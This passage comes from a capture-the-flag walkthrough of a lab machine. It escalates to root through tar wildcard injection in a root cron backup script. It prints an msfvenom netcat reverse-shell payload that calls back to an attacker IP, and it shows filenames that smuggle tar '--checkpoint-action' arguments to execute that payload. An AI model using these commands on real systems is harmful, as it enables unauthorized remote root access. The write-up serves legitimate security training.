 We can see that the script `backup.sh` is running every minute. Let's see its content

```
www-data@skynet:/$ cat /home/milesdyson/backups/backup.sh

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Believe it or not, we can exploit the use of wildcards in Linux. This technique is described in great details [here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). Let's create a msfvenom reverse shell 

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.220.153 lport=1234 

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 103 bytes
mkfifo /tmp/jarpkiv; nc 10.10.220.153 1234 0</tmp/jarpkiv | /bin/sh >/tmp/jarpkiv 2>&1; rm /tmp/jarpkiv
```

Set up a netcat listener on port 1234

```
$ nc -lnvp 1234

Listening on [0.0.0.0] (family 0, port 4242)
```

Let's type this command on the compromised machine and wait 

```
echo "mkfifo /tmp/jarpkiv; nc 10.10.220.153 1234 0</tmp/jarpkiv | /bin/sh >/tmp/jarpkiv 2>&1; rm /tmp/jarpkiv" > shell.sh touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"
```

Netcat should receive a connection back

```
$ nc -lnvp 1234

Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.32.183 48312 received!
whoami
root
cat /root/root.txt
3f0372db24753accc7179a28[redacted] 
```
